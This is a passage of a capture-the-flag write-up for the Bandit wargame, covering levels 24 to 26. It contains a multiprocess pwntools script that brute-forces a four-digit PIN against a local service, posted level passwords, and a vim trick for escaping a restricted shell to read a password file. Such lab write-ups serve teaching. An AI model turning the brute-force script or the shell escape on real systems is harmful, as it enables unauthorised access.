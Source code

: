 4.
```py
#!/usr/bin/python
from pwn import *
from multiprocessing import Process

def brute(nrOne,nrTwo):
    for pin in range(nrOne,nrTwo):
        pin = str(pin).zfill(4)

        r = remote('localhost', 30002)
        r.recv()
        r.send('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + pin + '\n')

        if 'Wrong' not in r.recvline():
            print '[+] Successful -> ' + pin
            print r.recvline()
            r.close()
        else:
            if int(pin) % 100 == 0:
                print '[!] Failed -> ' + pin
            r.close()

if __name__=='__main__':
    p1 = Process(target = brute, args = (0,2500,))
    p2 = Process(target = brute, args = (2500,5000,))
    p3 = Process(target = brute, args = (5000,7500,))
    p4 = Process(target = brute, args = (7500,10000,))
    p1.start()
    p2.start()
    p3.start()
    p4.start()
```

started the brute function four times and assigned a pincode range to each process to speed up the task. After a short time the password for the next level appears.
- `SILENT=1` disables the `pwntools` output that appears every time a connection is established or closed.

---

## Bandit Level 25 → Level 26 `in move window use v to enter vim, :e /etc/bandit_pass/bandit26`
Level Goal
- Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

```py
# uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

# 家目录上面有一个bandit26.sshkey,
bandit25@bandit:~$ ls
bandit26.sshkeyhkey

bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
Could not create directory '/home/bandit25/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:98UL0ZWr85496EtCRkKlo20X3OPnyPSB5tB5RPbhczc.
Are you sure you want to continue connecting (yes/no)? n
Please type 'yes' or 'no': no
Host key verification failed.
bandit25@bandit:~$

# 用这个私钥文件去连接远程的主机, ssh -i bandit26.sshkey bandit26@localhost
# 发现连接直接被远程关闭了，加上-T 参数也没有用
```